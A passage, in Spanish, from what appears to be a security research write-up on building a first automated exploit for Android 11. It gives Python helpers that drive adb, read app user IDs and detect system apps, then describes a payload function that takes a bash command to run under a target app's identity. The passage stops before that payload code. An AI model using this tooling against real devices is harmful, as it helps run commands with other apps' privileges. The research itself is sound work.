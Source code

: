 
Si automatizamos todo este proceso y arreglamos algunos detalles (como el hecho de que hay que abrir una aplicación manualmente después de cada explotación), tendremos una primera versión funcional del exploit para Android 11.

## -[ 0x07 Primera versión del exploit (Android 11) ]-

### Comunicación básica con adb

Para empezar a automatizar nuestro proceso, lo primero que necesitamos es poder interactuar programáticamente con `adb` usando Python, que es el lenguaje que usaremos en este experimento.

Existen varias opciones de _módulos_ que abstraen el proceso de trabajar con adb, sin embargo, decidimos simplemente usar el módulo `subprocess` para interactuar con `adb`. La función encargada de este proceso se vería así:


{% highlight python linenos %}
import subprocess

def send_adb_command(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    (child_stdin, child_stdout, child_stderr) = (p.stdin, p.stdout, p.stderr)
    return p.stdout.read().decode("utf-8")
{% endhighlight %}

Ya con esto podemos averiguar, por ejemplo, la versión de Android:

{% highlight python linenos %}
android_version = send_adb_command("adb shell getprop ro.build.version.release").strip("\n")
{% endhighlight%}

### Sacando la información necesaria

Con la función `send_adb_command` podemos averiguar el ID de usuario de una aplicación y si es privilegiada o no:

{% highlight python linenos %}
def get_app_uid(app):
    uid = send_adb_command(f"adb shell dumpsys package {app} | grep userId=")
    uid = uid.split("\n")
    _, uid = uid[0].split("=")
    return uid.strip('\n')
		
def is_system_app(app):
    return True if send_adb_command(f"adb shell pm path {app}").find(':/system') > 0 else False
{% endhighlight %}

Con estos dos datos podemos construir una _payload_.


### Payload

Vamos a crear una función que genere una variable llamada `payload` y que incluya todos los valores que teníamos en nuestra _payload_ original. Ahora, al pasar el nombre completo de una aplicación, obtendremos una _payload_ ya lista con el ID de usuario, grupo y contexto de SELinux. Además, la función también recibe como argumento el comando de bash que deseamos ejecutar, lo que nos permitirá _jugar_ más fácilmente con diferentes comandos. 
